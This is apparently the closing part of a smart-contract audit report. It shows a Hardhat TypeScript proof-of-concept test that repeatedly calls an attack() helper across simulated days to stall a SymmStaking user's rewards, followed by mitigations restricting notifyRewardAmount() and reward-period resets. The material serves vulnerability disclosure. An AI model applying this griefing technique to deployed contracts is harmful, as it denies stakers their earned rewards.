 ```typescript
			await attack();
			console.log(">>> [Time Travel] Increased time by an additional 1 day (attacker intervention).");
			userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 5 days, expected reward for User1:", userExpectedEarning.toString());

			// Day 6: Increase time and repeat the attack.
			await time.increase(day);
			await attack();
			console.log(">>> [Time Travel] Increased time by an additional 1 day (attacker intervention).");
			userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 6 days, expected reward for User1:", userExpectedEarning.toString());

			// Day 7: Increase time and repeat the attack.
			await time.increase(day);
			await attack();
			console.log(">>> [Time Travel] Increased time by an additional 1 day (attacker intervention).");
			userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 7 days, expected reward for User1:", userExpectedEarning.toString());

			// Day 8: Increase time and simulate final attacker intervention to show reward stagnation.
			await time.increase(day);
			await attack();
			console.log(">>> [Time Travel] Increased time by an additional 1 day (attacker intervention).");
			userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 8 days, expected reward for User1:", userExpectedEarning.toString());
		});
	});
}


```

### Mitigation

- **Restrict Access:** Modify the `notifyRewardAmount()` function so that only authorized roles (e.g., admin or reward manager) can call it. Implement role-based access control checks to enforce this restriction.  
- **Limit Reward Period Resets:** Add logic to prevent the continuous resetting of the reward period. For instance, disallow updates if a reward period is already active or ensure that new notifications do not shorten the effective reward duration unexpectedly.  